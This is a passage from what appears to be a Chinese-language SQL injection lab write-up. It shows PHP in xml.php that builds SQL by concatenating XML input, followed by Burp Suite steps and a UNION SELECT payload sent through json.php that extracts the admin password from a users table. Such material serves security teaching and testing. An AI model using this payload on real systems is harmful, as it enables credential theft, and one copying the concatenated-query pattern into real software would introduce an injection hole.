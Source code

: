 虽然id做了类型转换，但keyword没有任何过滤处理。

### 1.3 xml.php中的漏洞

```php
// 获取 XML 数据
$xmlData = file_get_contents('php://input');
$xml = simplexml_load_string($xmlData);

// 获取新闻 ID
$id = $xml->id;

// 获取搜索关键字
$keyword = $xml->keyword;

// 直接拼接SQL语句
$sql = "SELECT * FROM news WHERE id = $id";

if (!empty($keyword)) {
    $keyword = '%' . $keyword . '%';
    $sql .= " WHERE title LIKE '$keyword' OR content LIKE '$keyword'";
}
```

XML数据也存在SQL注入漏洞，且没有任何过滤。

## 2. 使用Burp Suite Pro进行SQL注入攻击

以下是使用Burp Suite Pro获取admin用户密码的步骤：

### 2.1 设置Burp Suite

1. 打开Burp Suite Pro并确保浏览器已配置使用Burp代理（通常是127.0.0.1:8080）
2. 确保Burp的拦截功能已开启（Proxy → Intercept → Intercept is on）

### 2.2 针对json.php的SQL注入攻击

1. 访问json.html页面
2. 输入任意关键字并提交搜索
3. 在Burp Suite中拦截请求
4. 找到包含JSON数据的POST请求
5. 修改JSON数据中的keyword参数，插入SQL注入payload

原始JSON请求可能如下:
```json
{
  "id": 0,
  "keyword": "test"
}
```

修改为利用联合查询获取admin用户密码的payload：
```json
{
  "id": 0,
  "keyword": "' UNION SELECT 1,2,password FROM users WHERE username='admin'-- -"
}
```
